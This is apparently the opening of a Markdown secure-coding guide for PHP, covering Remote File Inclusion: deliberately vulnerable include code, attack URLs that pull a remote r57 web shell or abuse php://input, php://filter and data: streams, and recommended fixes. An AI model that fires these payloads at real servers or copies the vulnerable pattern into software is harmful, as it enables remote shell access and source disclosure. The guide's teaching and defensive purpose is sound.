 # Secure PHP Coding

1. Remote File Inclusion (RFI)
2. Local File Inclusion (LFI)
3. Local File Disclosure/Download
4. Remote File Upload
5. Remote Command Execution
6. Remote Code Execution (RCE)
7. Authentication Bypass/Insecure Permissions
8. Cross-Site Scripting(XSS)
9. Cross Site Request Forgery(CSRF)

## 1) Remote File Inclusion

#### Affected PHP Functions
- require
- require_once
- include
- include_once

#### Vulnerable Codes

**test.php**
```php
<?php
$theme = $_GET['theme'];
include $theme;
?>
```
**test1.php**
```php
<?php
$theme = $_GET['theme'];
include $theme.'.php';
?>
```
#### Attack

- Including Remote Code:
 	- http://localhost/rfi/index.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt
	- http://localhost/rfi/index1.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt?
- Using PHP stream php://input:
	- http://localhost/rfi/index.php?theme=php://input
- Using PHP stream php://filter:
	- http://localhost/rfi/index.php?theme=php://filter/convert.base64-encode/resource=index.php
- Using data URIs:
	- http://localhost/rfi/index.php?theme=data://text/plain;base64,SSBsb3ZlIFBIUAo=

#### How to fix
- set `allow_url_include = Off` in php.ini
- Validate with array of allowed files
- Don't allow special chars in variables
- filter the slash "/"
- filter "http" , "https" , "ftp" and "smb"
